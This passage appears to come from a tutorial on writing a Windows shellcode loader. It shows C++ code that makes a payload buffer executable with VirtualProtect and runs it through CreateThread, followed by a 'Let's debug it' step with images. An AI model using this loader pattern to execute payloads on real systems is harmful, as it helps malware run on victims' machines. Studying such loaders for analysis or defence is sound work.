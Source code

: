 ```cpp
	plbufexec = VirtualProtect(plmem, pllen, PAGE_EXECUTE_READ, &oldprotect);
    printf("\nWanna Exec?\n");
	getchar();

	if ( plbufexec != 0 ) {
			run_thread = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) plmem, 0, 0, 0);
            printf("Payload Execution Started!\n");
			WaitForSingleObject(run_thread, -1);
	}
	return 0;
}

```

Let's debug it

![alt text](image-5.png)

![alt text](image-6.png)

![alt text](image-7.png)
